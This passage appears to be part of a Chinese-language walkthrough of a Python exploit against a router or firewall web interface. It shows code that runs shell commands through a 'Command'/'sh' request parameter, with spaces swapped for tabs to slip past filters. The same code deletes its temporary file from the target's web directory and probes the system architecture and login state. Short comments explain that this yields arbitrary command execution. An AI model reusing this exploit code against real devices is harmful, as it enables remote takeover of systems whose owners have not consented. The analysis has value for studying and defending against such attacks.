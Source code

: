 ```
    self.log.info("System information retrieved:\n"+res.content)

    self.log.info("Forcing removal of temp file from target now...")
    self._run_cmd("killall sleep && rm -f /www/htdocs/site/pages/.%s" % temp)
    if res.content.find("i686") == -1:
        return "System does not appear to be x86. Probably not exploitable."
    if res.content.find("tospass") != -1 or res.content.find("superman") != -1:
        self.log.warning("User may be logged in. PLEASE REVIEW SYSTEM INFO")
```
探测目标是否可以利用，如果不是x86体系结构也不能利用  
```
def _run_cmd(self,cmd,content=None,**kwargs):
    params = {
                "Url":"Command",
                "Action":"sh",
                "Para":"sh -c "+cmd.replace(" ","\t")
    }
    if content:
        c = StringIO(content)
        kwargs['data'],kwargs['files'] = params,{randstr(5):c}
        //post提交
        return self.post(self.exploit_url,**kwargs)
    else:
        kwargs['params'] = params
        return self.get(self.exploit_url,**kwargs)
```
Exp的主要逻辑，通过构造post请求，提交前面提到的Url、Action、Para等主要参数  

通过向`sh`程序传递shell指令，达到任意命令执行   
